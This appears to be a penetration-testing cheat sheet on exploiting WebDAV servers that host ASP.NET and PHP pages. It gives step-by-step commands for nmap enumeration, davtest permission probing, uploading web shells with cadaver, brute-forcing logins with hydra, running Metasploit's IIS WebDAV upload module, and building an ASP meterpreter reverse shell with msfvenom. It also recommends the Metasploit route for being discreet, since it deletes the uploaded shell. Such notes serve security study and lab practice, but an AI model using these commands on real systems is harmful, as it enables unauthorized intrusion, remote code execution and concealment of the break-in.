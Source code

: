 port 80/443

Static and dynamic web pages made in asp.net and php.

To connect to WebDAV you will need legitimate credentials.

Supported File Extensions
=
- .asp
- .aspx
- .config
- .php

Exploit Methodology
=
1. enumerate with nmap - find webdav directory
2. visit page, check credentials
3. use davtest to check for permissions, what files can be executed, made and edited
4. utilize cadaver to upload a shell made with msfvenom and setup msf handler or a kali web shell
5. visit webpage

you can also just use the Metasploit module, it will be more discrete, deletes shell.asp after a shell is created

Enumeration
=
`nmap -sV -p 80 --script http-enum host`  - lookfor webdav (potentially interesting folder)

Davtest
=
tool to scan, authenticate and exploit a WebDAV server

tests for what files can be created/editied on server, what files can be executed

usage:

`davtest -url http://IP/webdav`
`davtest -auth user:password -url http://IP/webdav`

Cadaver
=
tool supports file upload, download, on-screen display, crud, move and copy, property manipulation and resource locking.

Get web shells from the kali /user/share/webshells or use msfvenom

usage:

`cadaver http://IP/webdav`
	login with user credentials
	receive shell
	commands:
		`put /path/to/webshell` - uploads webs hell to  webdav (use asp shell in /usr/share/webshells/asp)

Bruteforce WebDAV
=
`hydra -L users.txt -P passwords.txt HOST-IP http-get /webdav/`

Metasploit
=
reverse shell with multi-handler:
1. Utilize msfvenom to create a reverse shell, then upload shell to WebDAV with cadaver
2. setup exploit/multi/handler on Metasploit
3. visit payload on webdav server

iis_webdav_upload_asp msf module:
1. `use exploit/windows/iis/iis_webdav_upload_asp`
2. setup -` set path to /webdav/shell.asp`
3. run

Msfvenom
=
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=port -f asp > shell.asp`
